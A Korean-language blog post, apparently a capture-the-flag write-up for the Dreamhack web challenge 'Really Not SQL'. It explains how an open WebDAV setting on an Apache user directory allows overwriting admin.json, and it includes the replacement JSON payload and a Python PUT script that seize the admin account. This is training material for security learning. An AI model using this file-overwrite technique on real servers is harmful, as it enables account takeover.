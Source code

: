 ```yaml
---
layout: post
title: "[DH]Really Not SQL"
date: 2025-08-07 12:04 +0900
category: Write-Up
tag: [dreamhack, web]
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

보안적으로 취약한 설정을 찾아, 파일 덮어쓰기를 통해 익스플로잇을 하는 문제이다.

### **RECON**
아파치-PHP 스택을 사용하는 웹 서버의 내부 코드가 주어진다. 
이떄, admin, guest의 계정이 주어진 것을 확인할 수 있으며, admin으로 로그인하면 flag.php를 통해 서버 내부의 플래그 값을 입력할 수 있다.

### **SOLUTION**
admin 계정은 json으로 관리되며, /var/www/http/user/admin.json 경로로 접근이 가능하다.

edit_profile.php 파일에서 계정의 비밀번호를 수정할 수 있는 기능이 존재하지만, admin 계정의 세션 인증이 필요하기 때문에 접근할 수 없다.

서버의 설정 파일을 확인해보자. 아파치 웹 서버에서 기본적으로 생성되는 000-default.conf 파일을 보면, `/var/www/http/user` 경로에 취약하게 설정이 된 것을 확인할 수 있다.

```js
  <Directory /var/www/html/user/>
      DAV On                    // WebDav 기능 활성화
      Options Indexes           // index.html(.php) 가 없으면 파일리스트 출력
      AllowOverride All         // .htaccess 파일을 통한 설정 덮어쓰기 허용
      Require all granted       // 누구에게나 해당 폴더 접근 허용
  </Directory>
```

WebDav에 대한 설명은 다음 [링크](https://umbum.dev/562/)를 참고하길 바란다. 

### **POC**

DAV On 설정을 통해 /var/www/html/user 경로에 파일을 덮어쓸 수도, 파일을 새로 올릴 수도 있다.

admin 계정으로 로그인하는 것이 목표이기 때문에, 파일 업로드 공격을 시도했다.

임의의 비밀번호를 sha-256 해시한 값을 업로드할 json 파일에 넣고, requests로 서버에 업로드하였다.

```json
{"no": 0, "id": "admin", "password": "{NEW_PASSWORD}"}
```

```py
import requests

url = "http://host8.dreamhack.games:24093/user/admin.json"


file_path = './new_admin.json'

with open(file_path, 'rb') as f:
    res = requests.put(url, data=f)

print(f'HTTP 상태 코드: {res.status_code}')
if res.status_code in [200, 201, 204]:
    print('파일 업로드(수정) 성공!')
else:
    print('업로드 실패')
```

이제 admin 계정으로 로그인이 가능해지며, flag.php 경로를 입력하면 플래그를 획득할 수 있다.

![login]

[chall]: /assets/DreamHack/reallynotsql/chall.png
[login]: /assets/DreamHack/reallynotsql/solution_login.png